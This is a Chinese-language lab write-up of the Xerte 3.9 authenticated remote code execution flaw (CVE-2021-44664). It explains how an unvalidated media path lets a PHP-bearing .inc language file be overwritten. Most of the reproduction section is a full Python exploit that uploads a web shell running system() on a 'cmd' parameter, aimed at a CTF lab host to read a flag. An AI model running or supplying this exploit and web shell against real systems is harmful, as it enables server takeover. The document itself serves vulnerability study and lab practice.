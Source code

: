 ## 1. 漏洞介绍
[阿里云漏洞库](https://avd.aliyun.com/detail?id=AVD-2021-44664)
Xerte RCE
## 2. 漏洞分析
[Authenticated file upload to Remote Code Execution in Xerte – Rik Lutz](https://riklutz.nl/2021/11/03/authenticated-file-upload-to-remote-code-execution-in-xerte/)
POC：[Xerte 3.9 Remote Code Execution ≈ Packet Storm](https://packetstormsecurity.com/files/166182/Xerte-3.9-Remote-Code-Execution.html)
**简要总结：**
Xerte 支持上传文件，并会对上传文件检验，加上由于 .htaccess，用户的 media 文件夹无法执行php 文件，但其他文件夹可以。遗憾的是，由于上传扩展黑名单相当大，这是不允许的。以下是会被拦截的黑名单。

```bash
php,php5,pl,cgi,exe,vbs,pif,application,gadget,msi,msp,com,scr,hta,htaccess,ini,cpl,msc,jar,bat,cmd,vb,vbe,jsp,jse,ws,wsf,wsc,wsh,ps1,ps1xml,ps2,ps2xml,psc1,psc2,msh,msh1,msh2,mshxml,msh1xml,msh2xml,scf,lnk,inf,reg,docm,dotm,xlsm,xltm,xlam,pptm,potm,ppam,ppsm,sldm
```

![2.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202309171620999.png)

但在 Chrome 开发人员工具中检查此文件上传时，注意到存在媒体路径变量。 媒体路径定义文件的保存位置。 此路径未经验证，文件可以保存在服务器上的任何位置：

![1.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202309171620346.png)

研究人员进一步注意到了一个名为 \_load_language_file 的函数。 Xerte 有多种不同的语言版本，并且语言文件使用 .inc 扩展名。 这些.inc文件通常包含php代码，并且.inc不在上传黑名单中！ 可以用 php 代码覆盖现有的 .inc 文件并在加载页面时执行它。
## 3. 漏洞复现
下载漏洞 POC：[Xerte 3.9 Remote Code Execution ≈ Packet Storm](https://packetstormsecurity.com/files/166182/Xerte-3.9-Remote-Code-Execution.html)
xerte39-exec.py
```python
# Exploit Title: Xerte 3.9 - Remote Code Execution (RCE) (Authenticated)
# Date: 05/03/2021
# Exploit Author: Rik Lutz
# Vendor Homepage: https://xerte.org.uk
# Software Link: https://github.com/thexerteproject/xerteonlinetoolkits/archive/refs/heads/3.8.5-33.zip
# Version: up until version 3.9
# Tested on: Windows 10 XAMP 
# CVE : CVE-2021-44664

# This PoC assumes guest login is enabled and the en-GB langues files are used. 
# This PoC wil overwrite the existing langues file (.inc) for the englisch index page with a shell.
# Vulnerable url: https://<host>/website_code/php/import/fileupload.php
# The mediapath variable can be used to set the destination of the uploaded.
# Create new project from template -> visit "Properties" (! symbol) -> Media and Quota

import requests
import re

xerte_base_url = "http://eci-2zee4hjweuqo6njxe9p2.cloudeci1.ichunqiu.com"
php_session_id = "" # If guest is not enabled, and you have a session ID. Put it here.

with requests.Session() as session:
    # Get a PHP session ID
    if not php_session_id:
        session.get(xerte_base_url) 
    else:
        session.cookies.set("PHPSESSID", php_session_id)

     # Use a default template
    data = {
        'tutorialid': 'Nottingham',
        'templatename': 'Nottingham',
        'tutorialname': 'exploit',
        'folder_id': ''
    }

    # Create a new project in order to find the install path
    template_id = session.post(xerte_base_url + '/website_code/php/templates/new_template.php', data=data)

    # Find template ID
    data = {
        'template_id': re.findall('(\d+)', template_id.text)[0]
    }

    # Find the install path:
    install_path = session.post(xerte_base_url + '/website_code/php/properties/media_and_quota_template.php', data=data)
    install_path = re.findall('mediapath" value="(.+?)"', install_path.text)[0]

    headers = {
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:94.0) Gecko/20100101 Firefox/94.0',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
        'Accept-Language': 'nl,en-US;q=0.7,en;q=0.3',
        'Content-Type': 'multipart/form-data; boundary=---------------------------170331411929658976061651588978',
       }

    # index.inc file
    data = \
    '''-----------------------------170331411929658976061651588978
Content-Disposition: form-data; name="filenameuploaded"; filename="index.inc"
Content-Type: application/octet-stream

<?php
if(isset($_REQUEST[\'cmd\'])){ echo "<pre>"; $cmd = ($_REQUEST[\'cmd\']); system($cmd); echo "</pre>"; die; }
/**
 *
 * index.php english language file
 *
 * @author Patrick Lockley
 * @version 1.0
 * @copyright Pat Lockley
 * @package
 */

define("INDEX_USERNAME_AND_PASSWORD_EMPTY", "Please enter your username and password");

define("INDEX_USERNAME_EMPTY", "Please enter your username");

define("INDEX_PASSWORD_EMPTY", "Please enter your password");

define("INDEX_LDAP_MISSING", "PHP\'s LDAP library needs to be installed to use LDAP authentication. If you read the install guide other options are available");

define("INDEX_SITE_ADMIN", "Site admins should log on on the manangement page");

define("INDEX_LOGON_FAIL", "Sorry that password combination was not correct");

define("INDEX_LOGIN", "login area");

define("INDEX_USERNAME", "Username");

define("INDEX_PASSWORD", "Password");

define("INDEX_HELP_TITLE", "Getting Started");

define("INDEX_HELP_INTRODUCTION", "We\'ve produced a short introduction to the Toolkits website.");

define("INDEX_HELP_INTRO_LINK_TEXT","Show me!");

define("INDEX_NO_LDAP","PHP\'s LDAP library needs to be installed to use LDAP authentication. If you read the install guide other options are available");

define("INDEX_FOLDER_PROMPT","What would you like to call your folder?");

define("INDEX_WORKSPACE_TITLE","My Projects");

define("INDEX_CREATE","Project Templates");

define("INDEX_DETAILS","Project Details");

define("INDEX_SORT","Sort");

define("INDEX_SEARCH","Search");

define("INDEX_SORT_A","Alphabetical A-Z");

define("INDEX_SORT_Z","Alphabetical Z-A");

define("INDEX_SORT_NEW","Age (New to Old)");

define("INDEX_SORT_OLD","Age (Old to New)");

define("INDEX_LOG_OUT","Log out");

define("INDEX_LOGGED_IN_AS","Logged in as");

define("INDEX_BUTTON_LOGIN","Login");

define("INDEX_BUTTON_LOGOUT","Logout");

define("INDEX_BUTTON_PROPERTIES","Properties");

define("INDEX_BUTTON_EDIT","Edit");

define("INDEX_BUTTON_PREVIEW", "Preview");

define("INDEX_BUTTON_SORT", "Sort");

define("INDEX_BUTTON_NEWFOLDER", "New Folder");

define("INDEX_BUTTON_NEWFOLDER_CREATE", "Create");

define("INDEX_BUTTON_DELETE", "Delete");

define("INDEX_BUTTON_DUPLICATE", "Duplicate");

define("INDEX_BUTTON_PUBLISH", "Publish");

define("INDEX_BUTTON_CANCEL", "Cancel");

define("INDEX_BUTTON_SAVE", "Save");

define("INDEX_XAPI_DASHBOARD_FROM", "From:");

define("INDEX_XAPI_DASHBOARD_UNTIL", "Until:");

define("INDEX_XAPI_DASHBOARD_GROUP_SELECT", "Select group:");

define("INDEX_XAPI_DASHBOARD_GROUP_ALL", "All groups");

define("INDEX_XAPI_DASHBOARD_SHOW_NAMES", "Show names and/or email addresses");

define("INDEX_XAPI_DASHBOARD_CLOSE", "Close dashboard");

define("INDEX_XAPI_DASHBOARD_DISPLAY_OPTIONS", "Display options");

define("INDEX_XAPI_DASHBOARD_SHOW_HIDE_COLUMNS", "Show / hide columns");

define("INDEX_XAPI_DASHBOARD_QUESTION_OVERVIEW", "Interaction overview");

define("INDEX_XAPI_DASHBOARD_PRINT", "Print");
\r
\r
-----------------------------170331411929658976061651588978
Content-Disposition: form-data; name="mediapath"

''' \
    + install_path \
    + '''../../../languages/en-GB/
-----------------------------170331411929658976061651588978--\r
'''

    # Overwrite index.inc file
    response = session.post(xerte_base_url + '/website_code/php/import/fileupload.php', headers=headers, data=data)
    print('Installation path: ' + install_path)
    print(response.text)
    if "success" in response.text:
        print("Visit shell @: " + xerte_base_url + '/?cmd=whoami')
            


```

开启环境后用该脚本攻击
![3.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202309171641593.png)
读取 flag
![3.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202309171641594.png)